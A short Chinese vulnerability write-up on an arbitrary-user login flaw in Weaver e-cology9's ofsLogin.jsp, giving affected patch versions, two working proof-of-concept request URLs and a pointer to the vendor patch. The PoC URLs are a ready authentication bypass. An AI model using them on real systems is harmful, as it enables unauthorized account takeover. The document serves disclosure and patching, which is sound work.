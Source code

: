 # 

# 泛微OA E-Cology ofsLogin.jsp 前台任意用户登录漏洞

## 漏洞描述

泛微 e-cology 前台任意用户登录漏洞：泛微 e-cology9 部分版本中存在前台任意用户登录漏洞。该漏洞允许未经身份验证的攻击者通过发送构造的请求触发漏洞，成功利用此漏洞的攻击者可登录任意用户。

## 漏洞影响

```
部分 e-cology9 且补丁版本 < 10.57
```

## 漏洞复现

poc1

```
/mobile/plugin/1/ofsLogin.jsp?syscode=syscode&timestamp=2&gopage=3&receiver=test&loginTokenFromThird=
```

poc2

```
/mobile/plugin/1/ofsLogin.jsp?gopage=/wui/index.html&loginTokenFromThird=866fb3887a60239fc112354ee7ffc168&receiver=1&syscode=1&timestamp
```

## 漏洞修复

目前，官方已发布修复建议，建议受影响的用户尽快升级至最新版本的补丁。下载地址：https://www.weaver.com.cn/cs/securityDownload.asp#
